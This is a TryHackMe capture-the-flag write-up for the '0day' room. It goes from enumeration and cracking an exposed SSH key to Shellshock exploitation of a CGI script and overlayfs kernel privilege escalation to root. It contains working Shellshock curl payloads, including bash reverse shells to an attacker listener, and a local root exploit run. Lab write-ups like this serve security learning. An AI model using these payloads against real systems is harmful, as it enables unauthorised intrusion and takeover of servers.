 # 0day (THM)

- https://tryhackme.com/room/0day
- March 22, 2023
- medium

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP

- home page - nothing interesting found

![](screenshots/2023-03-22-01-25-59.png)

- directory brute forcing with fffu

```
admin -> nothing found
backup
css
img
cgi-bin -> 403
js
robots.txt -> nothing found
secret
uploads -> nothing found
```
- backup -> private key

![](screenshots/2023-03-22-01-29-07.png)

- secret

![](screenshots/2023-03-22-01-30-08.png)

- copy the rsa key and save it as id_rsa

```sh
$ touch id_rsa
$ chmod 600 id_rsa 

# Tried to crack as sometimes it gives a hint for username
$ /opt/tools/john/run/ssh2john.py id_rsa > forj
$ john forj
# passphrase -> letmein
```
- no hint for username
- in home page, there is a name of the creater of this room
- `0day`, `Ryan Montgomery`
- try usernames with information from home page
- not success

- nothing to do now
- there was a `cgi-bin` directory which is 403
- try to brute force this directory
- in cgi-bin, there may be files with `.cgi` extensions
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi
- nikto result came out

```
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
```


## User Access

### using script

- found shellshock exploit from github
- https://github.com/b4keSn4ke/CVE-2014-6271/blob/main/shellshock.py

![](screenshots/2023-03-22-01-50-51.png)

- get `www-data` access
- just interesting cgi content

### Manual exploit

- command execution can be done at user-agent header or cookie header like this
  
```sh
curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd" http://$IP/cgi-bin/test.cgi
```
- need to execute absolute path
- listen with nc and

```sh
$ curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/bash -i >& /dev/tcp/10.11.8.57/4242 0>&1" http://$IP/cgi-bin/test.cgi
```
or
```sh
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.11.8.57/4242 0>&1' http://$IP/cgi-bin/test.cgi
```

```sh
www-data@ubuntu:/usr/lib/cgi-bin$ cat test.cgi
cat test.cgi
#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Hello World!\n"
```

```sh
www-data@ubuntu:/tmp$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

- there is a kernel exploit `Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation`
- https://www.exploit-db.com/exploits/37292
- get this c file and compile in remote machine but got an error

```sh
www-data@ubuntu:/tmp$ gcc overlayfs.c -o ofs
gcc: error trying to exec 'cc1': execvp: No such file or directory
```
- check PATH variable

```sh
www-data@ubuntu:/tmp$ echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
```
- i remove the last dot from PATH varable and run it and get
- (I don't know how it works)


## Root Access

```sh
www-data@ubuntu:/tmp$ export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin
www-data@ubuntu:/tmp$ echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin

www-data@ubuntu:/tmp$ gcc overlayfs.c -o ofs
gcc overlayfs.c -o ofs

www-data@ubuntu:/tmp$ ls
ls
linpeas.sh  lp_out.ansi  ofs  overlayfs.c

www-data@ubuntu:/tmp$ ./ofs
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
whoami
root

```